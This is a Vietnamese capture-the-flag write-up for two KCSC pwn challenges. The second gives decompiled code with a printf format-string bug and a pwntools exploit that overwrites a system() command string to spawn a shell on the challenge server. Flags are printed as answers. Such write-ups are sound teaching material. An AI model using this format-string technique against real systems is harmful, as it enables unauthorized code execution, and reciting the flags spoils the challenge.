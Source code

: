 ## pwn/A gift for pwners

{{< admonition note "Challenge Information" >}}
* 40 solves / 100 pts
* **Given files:** [gift](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EX1Y8Dum-21OjKYxOWeahqsBx8Jv0sr4Pl6OJ-wfv2s2pQ?e=ImvXPj)
* **Description:** Just find flag in file, no need netcat
{{< /admonition >}}

**Solution**

Load file vào IDA64, dùng shortcut Shift + F12 để kiểm tra các string, ta có được phần đầu và phần cuối của flag là **`KCSC{A_gift_`** và **`pwners_0xdeadbeef}`**. 

Kiểm tra hàm **`secret`**, ta có được phần giữa của flag là **`for_the_`**. 

Flag đầy đủ của bài toán là **`KCSC{A_gift_for_the_pwners_0xdeadbeef}`**

## pwn/Format

{{< admonition note "Challenge Information" >}}
* 0 solve / 500 pts / by Nuuuuuuuu
* **Given files:** [format.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EbjKR1jipvdJm4ZWwXLa2BoBNfwJJSKf2qcXOf8r3JsC7w?e=mpBn7N)
* **Description:** You don't have to do anything, i will printf the flag for you^^\
**`nc 103.162.14.116 12001`**
{{< /admonition >}}

**Solution**

Load file vào IDA64, dễ thấy có lỗ hổng FMT ở dòng **`printf(buf)`**

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    char buf[40]; // [rsp+10h] [rbp-30h] BYREF
    unsigned __int64 v5; // [rsp+38h] [rbp-8h]

    v5 = __readfsqword(0x28u);
    puts("Do you want to get flag^^");
    buf[read(0, buf, 0x25uLL)] = 0;
    printf(buf);
    system(cmd);
    return 0;
}
```

Chương trình gọi hàm **`system`** với **`cmd`** là một câu lệnh echo. Ý tưởng để giải bài này sẽ là tận dụng bug FMT viết thêm chuỗi **`;sh`** sau câu lệnh đó để lấy shell. 

```python
from pwn import *

elf = ELF("./format", checksec = False)

# p = process(elf.path)
p = remote("103.162.14.116", 12001)
pause()

write_addr = 0x4040B5
sh = 0x68733b # ;sh 

pay = f"%{sh}c%10$n".encode().ljust(0x10, b"\x00") + p64(write_addr)
p.sendline(pay)

p.interactive()
# KCSC{F1rs1_Pr0b13m_w1Th_pR1Ntf}
```